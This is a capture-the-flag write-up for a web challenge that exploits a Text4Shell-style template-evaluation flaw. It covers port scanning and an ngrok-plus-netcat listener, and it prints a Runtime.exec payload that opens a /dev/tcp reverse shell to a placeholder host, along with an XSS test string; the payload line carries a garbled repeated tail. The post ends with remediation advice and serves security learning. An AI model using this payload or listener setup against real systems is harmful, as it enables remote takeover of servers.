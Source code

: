 ```yaml
---
title: Safaricom PwnZone CTF Prequalifiers
date: 2025-10-05 08:00:00 +0800
categories: [ctf, web]
tags: [ctf, safaricom_ctf, web, reverse_shell ]    # TAG names should always be lowercase
description: "Challenge: Message Me"
---
```



# Message Me

![Message Me Challenge](/dzif8ltvg/image/upload/v1759699751/CTF/Safaricom%20PwnZone%20CTF%20Prequalifiers/ctf.safaricom.co.ke_Message_Me_stlobl.png){: width="400" height="400"}

---

## TL;DR

A web service listening on port `8802` echoed user-supplied input into a template-rendered response. By abusing template evaluation / remote-lookup behavior (a Text4Shell-style vector) and exposing a local TCP listener via **ngrok → nc/pwncat**, I forced the server to open a reverse TCP connection, obtained an interactive shell, and retrieved the flag.

---

## Challenge overview
**Target:** `http://54.72.82.22:8802`  
**Hint:** *Its 2021, you give me text, I give you shell.* 

The service accepts a `message` parameter and echoes it back. The objective is to craft input that leads to command execution (a shell) on the server.

![Message Overview](/dzif8ltvg/image/upload/v1759699750/CTF/Safaricom%20PwnZone%20CTF%20Prequalifiers/ctf.safaricom.co.ke_challenges_port_pw42la.png)

---

## Reconnaissance

### Port scan

```bash
$ nmap 54.72.82.22 -p 8802
Starting Nmap 7.92 ( https://nmap.org ) at 2025-10-03 20:00 EAT
Host is up (0.15s latency).
PORT     STATE SERVICE
8802/tcp open  unknown
Nmap done: 1 IP address (1 host up) scanned in 0.40 seconds
```

### Directory bruteforce

```bash
$ gobuster dir -u http://54.72.82.22:8802 -w ~/path to wordlist/common.txt 
/error                (Status: 500) [Size: 105]
/favicon.ico          (Status: 200) [Size: 946]
```

The error output and favicon indicated a Spring/Thymeleaf stack (Whitelabel error page):

```
Whitelabel Error Page
This application has no explicit mapping for /error, so you are seeing this as a fallback.
Sun Oct 05 20:16:45 GMT 2025
There was an unexpected error (type=Not Found, status=404).
No message available
```

This stackhint narrowed the attack surface to template rendering and server-side evaluation mechanisms.

---

### Initial tests

I tested the `message` parameter to understand its reflection/escaping behavior. A simple XSS check showed input was reflected in the page:

`http://54.72.82.22:8802/?message=<script>alert(1)</script>`

![XSS/reflection test](/dzif8ltvg/image/upload/v1759699751/CTF/Safaricom%20PwnZone%20CTF%20Prequalifiers/saf_xss_d9yghw.png){: width="400" height="400"}


**Observations:**
- The app reflected user input into the response.
- Some escaping/filtering was present, but it was possible to craft payloads to bypass naive filters.
- The stack’s templating behavior made template-evaluation style payloads a primary avenue.

---

### Remote listener setup

The exploit required the target to connect back to a public listener. My environment lacked direct router forwarding, so I used **ngrok** to expose a local listener:


1. **Install / configure ngrok**  
   - Download and Sign In: Get the ngrok binary from the official ngrok website. 
   - Authenticate: Add your free-tier authentication token. This is sufficient for setting up a basic listener.

2. **Start an ngrok TCP tunnel to local port `9090`:**
    - Start a tunnel that forwards traffic from a public ngrok endpoint to your local port 9090.
    - Heads Up: The ngrok service may require a verified account (which sometimes means adding a credit card) to activate the TCP tunneling feature on the Free Tier.

    ```bash
    ngrok tcp 9090
    ```

    Ngrok will provide a public endpoint your target machine will connect to. The output will look similar to this:

    ```
    Forwarding                    tcp://x.tcp.in.ngrok.io:xxxxx -> localhost:9090
    ```

    Optional: Resolve public host to an IP:
    If your reverse shell payload requires an IP address instead of a hostname, you can resolve the ngrok address:

    ```
    $ nslookup x.tcp.in.ngrok.io
    Server:		127.0.0.53
    Address:	127.0.0.53#53
    Non-authoritative answer:
    Name:	x.tcp.in.ngrok.io
    Address: 13.x.x.x
    ```

3. Start a local listener:
    Start a local listener on port 9090 to catch the incoming connection from the ngrok tunnel.

    ```
    nc -lvnp 9090
    # or
    pwncat -lv 9090
    ```
    Once the target executes the reverse shell payload directed at your ngrok public endpoint (x.tcp.in.ngrok.io:xxxxx), you will receive the connection on your local listener.

---

### Attack Approach: Template Injection to Reverse Shell 🐚

The vulnerability exploited involved the application rendering reflected user input directly within a template context.

I used a template evaluation / remote lookup style payload — specifically tailored to the app's underlying technology stack to trigger a crucial action on the server:

1. Outbound Connection: The server was coerced into initiating an outbound TCP connection to my controlled ngrok endpoint.

2. Reverse Shell: This connection was then used to spawn and redirect a reverse shell back to my listener.

For reference on the general class of technique see: [text4shell](https://www.aquasec.com/cloud-native-academy/supply-chain-security/text4shell/) 

---

## Crafting the payload 
I iteratively tuned the payload to successfully bypass the application's escaping and filtering mechanisms and to reliably trigger a network callback to my listener.

Tools like CyberChef were essential for manipulating the payload, and using the curl option `--data-urlencode` helped create payload variants that survived both URL encoding and the server-side filters.

Final Payload Structure (Template Evaluation)

```
${script:javascript:java.lang.Runtime.getRuntime().exec(Java.to(['/bin/bash','-c','sh -i >& /dev/tcp/your_ip_address/your_port 0>&1'],'java.lang.String[]'))} "your_port 0>&1'],'java.lang.String[]'))} "
```
![CyberChef Encoding](/dzif8ltvg/image/upload/v1759707892/CTF/Safaricom%20PwnZone%20CTF%20Prequalifiers/cyber_chef_uevfk8.png)

Note: This specific structure utilizes a scripting engine within the templating context (like JNDI/OGNL) to execute.


---

### Receiving the shell

Once the payload was successfully delivered to the target application, my ngrok listener received the incoming connection and dropped into an interactive shell.

![pwncat reverse shell](/dzif8ltvg/image/upload/v1759699751/CTF/Safaricom%20PwnZone%20CTF%20Prequalifiers/pwncat_main_arttya.png)

I quickly enumerated the filesystem and successfully located the flag.

---


## Remediation & mitigation

If this were a production application, recommended mitigations include:

- **Use safe template APIs / escape all untrusted input**
  - Never evaluate or interpret user input within templates
  - Prefer APIs that treat user data strictly as text (no expression evaluation)

- **Disable remote lookups & unsafe features**
  - For Spring/Thymeleaf apps, ensure features that can trigger remote lookups or expression evaluation from user input are disabled

- **Egress filtering**
  - Implement strict outbound network controls so application hosts cannot freely connect to arbitrary external addresses

- **Input validation & allowlists**
  - Apply context-aware escaping and strict allowlists for expected values

- **Detect & alert on anomalous outbound connections**
  - Monitor for unexpected outbound connections and unusual process/network activity

---

## Acknowledgements & Special Thanks

This guided solution was developed after the initial breakthrough by **Carlos**, who — using an innovative (and unintended) DNS exfiltration technique — earned first blood on the challenge.

---
